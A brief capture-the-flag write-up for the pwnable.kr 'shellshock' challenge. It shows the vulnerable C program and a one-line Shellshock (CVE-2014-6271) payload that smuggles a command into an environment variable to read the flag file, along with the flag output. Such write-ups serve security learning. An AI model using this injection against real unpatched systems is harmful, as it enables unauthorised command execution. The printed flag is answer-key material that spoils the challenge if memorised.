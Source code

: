 # Description
Mommy, there was a shocking news about bash.
I bet you already know, but lets just make it sure :)


ssh shellshock@pwnable.kr -p2222 (pw:guest)

# Vulnerability
```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```
This program uses subshell, which has vulnerability about shellshock.

# Exploitation
```
shellshock@ubuntu:~$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
shellshock@ubuntu:~$ 
```
